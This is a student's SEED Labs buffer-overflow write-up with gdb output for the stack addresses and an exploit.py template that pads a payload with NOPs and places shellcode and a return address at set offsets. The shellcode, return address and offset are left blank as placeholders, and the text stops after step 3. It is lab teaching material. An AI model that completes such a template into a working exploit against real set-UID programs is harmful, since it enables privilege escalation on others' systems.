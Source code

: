 # SEEDlabs: Environment Variable and Set-UID Program Lab

#### Ozgur Ural
#### Student ID: 2564455


## Launching Attack on 32-bit Program (Level 1)

1. gdb stack-L1-dbg - Get the address of the bof function and the address of the buffer.

```sh
gdb-peda$ print $ebp
$1 = (void *) 0xffffcb08
gdb-peda$ print $buffer
$2 = (char (*)[100]) 0xffffca9c
```

2. Created badfile file. 
3. Modified the exploit.py file:

```c
#!/usr/bin/python3
import sys
shellcode= (
"" # ✩ Need to change ✩
).encode(’latin-1’)
# Fill the content with NOP’s
content = bytearray(0x90 for i in range(517))
##################################################################
# Put the shellcode somewhere in the payload
start = 0 # ✩ Need to change ✩
content[start:start + len(shellcode)] = shellcode
# Decide the return address value
# and put it somewhere in the payload
ret = 0x00 # ✩ Need to change ✩
offset = 0 # ✩ Need to change ✩
L = 4 # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder=’little’)
##################################################################
```
